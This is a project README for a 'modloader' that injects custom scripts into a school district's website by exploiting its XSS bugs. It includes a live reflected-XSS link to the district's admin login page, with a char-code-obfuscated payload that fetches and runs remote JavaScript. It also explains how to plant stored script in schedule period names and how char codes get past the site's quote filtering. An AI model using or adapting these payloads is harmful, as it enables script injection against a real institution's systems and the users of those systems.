 # RHS-Modloader
An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

(If you prefer a longer link that is much more stable with no install, go [here]())

# Features
- Completely custom theme/plugin support using js/css
- Saving state of enabled plugins/themes
- As this is unfinished, this is not the full list of features. more will be added soon.

# Installation Instructions

-- This will be changed to allow for a one-click install, removing the install process and making it easier for the end user. --
This is outdated, as an update is being developed to remove this nessecity.

As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Cscript%3Einstall=String.fromCharCode(115,99,114,105,112,116);replace=String.fromCharCode(104,116,116,112,115,58,47,47,99,100,110,46,106,115,100,101,108,105,118,114,46,110,101,116,47,103,104,47,80,111,121,114,97,122,79,122,107,117,115,97,107,115,105,122,47,82,72,83,45,77,111,100,108,111,97,100,101,114,64,109,97,115,116,101,114,47,105,110,115,116,97,108,108,101,114,46,106,115);var%20scriptTag%20=%20document.createElement(install);scriptTag.src%20=%20replace;document.body.appendChild(scriptTag);%3C/script%3E) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

# How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
